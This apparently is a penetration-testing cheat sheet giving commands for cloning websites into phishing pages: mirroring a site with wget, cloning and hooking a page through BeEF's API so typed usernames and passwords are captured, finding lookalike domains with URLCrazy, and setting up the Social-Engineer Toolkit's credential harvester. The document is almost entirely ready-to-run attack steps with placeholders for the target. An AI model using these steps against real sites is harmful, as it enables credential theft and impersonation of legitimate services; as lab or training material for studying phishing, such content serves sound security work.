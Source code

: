 #### Clone with wget

```bash
cd /var/www/cloned.test/
wget -mK -nH <target site>
```

#### Clone with BeEF

```bash
beef -x
```

in shell:

```bash
curl -H "Content-Type: application/json; charset=UTF-8" \ -d '{"url":"<target URL>", "mount":"/amazon"}' \ -X POST http://127.0.0.1:3000/api/seng/clone_page?token=<API key from BeEF console> 

- Go to the browser and visit the address
- localhost:3000/amazon
# with beef its cloned + its automaticaly hooked 
# If the user type anything like user:password it will be redirect to the original site and BeEF will capture any info
```

in BeEF GUI:

```bash
Current Browser > Commands > Browser > Hooked Domain > Create Prompt Dialog
<write something> - Execute
```

#### Create a Similar Targets Domain with URLCRAZY

```bash
urlcrazy <target URL>
```

#### Cloning with The Social-Engineer Toolkit

```bash
setoolkit
```

in shell:

```bash
cd /usr/share/set/config; 
cp set_config set_config.bkp
edit set_config > APACHE_DIRECTORY=/var/www/cloned.test
edit HARVESTER_LOG=/var/www/cloned.test/
```

in SET:

```bash
1 - Social-Engineer Attacks
2 - Website Attack Vectors
3 - Credential Harvester Attack Method
2 - Site Cloner
# <in real scenarios we need to configure an external IP address, in this case well skip>
# <enter the URL to clone>
```

